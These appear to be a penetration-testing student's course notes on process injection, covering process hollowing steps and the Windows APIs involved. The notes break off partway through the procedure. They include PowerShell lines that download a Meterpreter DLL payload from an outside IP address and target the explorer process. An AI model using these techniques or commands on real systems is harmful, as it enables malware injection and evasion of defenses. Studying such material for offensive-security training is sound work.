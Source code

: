 - Example, but the methods are older
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
$procid = (Get-Process -Name explorer).Id
```
- more current version
```powershell
$response = Invoke-WebRequest -Uri "http://192.168.1.113/met.dll" -UseBasicParsing
$procid = (Get-Process -Name explorer).Id
```
- $response.Content is the byte array
- couldn't get the example to work (maybe machine needs a reboot?)

## Process Hollowing

MITRE Attack Technique: https://attack.mitre.org/techniques/T1055/012/
"Process hollowing is commonly performed by creating a process in a suspended state then unmapping/hollowing its memory, which can then be replaced with malicious code."


There are a few steps we must perform and components to consider, but the most important is the use of the _CREATE_SUSPENDED_[1](https://portal.offsec.com/courses/pen-300-9502/learning/process-injection-and-migration-14686/process-hollowing-14704/process-hollowing-theory-14978#fn-local_id_497-1) flag during process creation. This flag allows us to create a new suspended (or halted) process.

When a process is created through the _CreateProcess_[2](https://portal.offsec.com/courses/pen-300-9502/learning/process-injection-and-migration-14686/process-hollowing-14704/process-hollowing-theory-14978#fn-local_id_497-2) API, the operating system does three things:

1. Creates the virtual memory space for the new process.
2. Allocates the stack along with the _Thread Environment Block_ (TEB)[3](https://portal.offsec.com/courses/pen-300-9502/learning/process-injection-and-migration-14686/process-hollowing-14704/process-hollowing-theory-14978#fn-local_id_497-3) and the _Process Environment Block_ (PEB).[4](https://portal.offsec.com/courses/pen-300-9502/learning/process-injection-and-migration-14686/process-hollowing-14704/process-hollowing-theory-14978#fn-local_id_497-4)
3. Loads the required DLLs and the EXE into memory.

Once all of these tasks have been completed, the operating system will create a thread to execute the code, which will start at the _EntryPoint_ of the executable. If we supply the _CREATE_SUSPENDED_ flag when calling _CreateProcess_, the execution of the thread is halted just before it runs the EXE's first instruction.

#### Steps
1. Call CreateProcess API
	1. Creates virtual memory space for the new process
	2. Allocates the stack with the TEB and PEB
	3. Loads required dlls and exe into memory
2. Supply CREATE_SUSPENDED flag to the CreateProcess API
3. Need to locate the EntryPoint of the exe and overwrite it's in-memory content with staged shellcode
	1. ZwQueryInformationProcess API called to get PEP address

	```c++
			NTSTATUS WINAPI ZwQueryInformationProcess(
			  _In_      HANDLE           ProcessHandle,
			  _In_      PROCESSINFOCLASS ProcessInformationClass,
			  _Out_     PVOID            ProcessInformation,
			  _In_      ULONG            ProcessInformationLength,
			  _Out_opt_ PULONG           ReturnLength
			);
	```
	2. Supply enum from ProcessInformationClass to ZwQueryInformationProcess
	3. Supply 0 for ProcessBasicInformation in ProcessInformationClass to obtain the PEB in the suspended process
	4. Base address of the exe will be at offset 0x10 bytes into the PEB
4. Read the EXE base address
	1. use ReadProcessMemory API